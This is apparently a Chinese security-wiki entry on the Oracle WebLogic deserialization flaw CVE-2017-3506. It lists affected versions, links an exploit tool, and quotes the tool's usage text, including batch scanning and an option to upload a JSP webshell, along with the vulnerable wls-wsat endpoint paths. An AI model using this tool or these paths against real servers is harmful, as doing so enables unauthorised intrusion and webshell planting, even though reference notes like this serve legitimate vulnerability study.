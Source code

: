 （CVE-2017-3506）
=================

一、漏洞简介
------------

二、漏洞影响
------------

Oracle WebLogic Server10.3.6.0.0

Oracle WebLogic Server12.1.3.0.0

Oracle WebLogic Server12.2.1.1.0

Oracle WebLogic Server12.2.1.2.0

三、复现过程
------------

<https://github.com/ianxtianxt/CVE-2017-3506>

![](./.resource/(CVE-2017-3506)Weblogic反序列化漏洞/media/rId25.png)

    [*]          漏洞编号  CVE-2017-3506 & CVE-2017-10271
    [*]          漏洞详情  https://www.secfree.com/article-635.html
    [*]          作者邮箱  Bearcat@secfree.com

    [*] 使用方法:
    [*]          单个检测  -u http://Host:Port
    [*]          批量检测  -f url.txt
    [*]          上传木马  -s http://Host:Port /wls-wsat/CoordinatorPortType11 shell.jsp


    [*] wls-wsat组件路径：

                /wls-wsat/CoordinatorPortType
                /wls-wsat/CoordinatorPortType11
                /wls-wsat/ParticipantPortType
                /wls-wsat/ParticipantPortType11
                /wls-wsat/RegistrationPortTypeRPC
                /wls-wsat/RegistrationPortTypeRPC11
                /wls-wsat/RegistrationRequesterPortType
                /wls-wsat/RegistrationRequesterPortType1
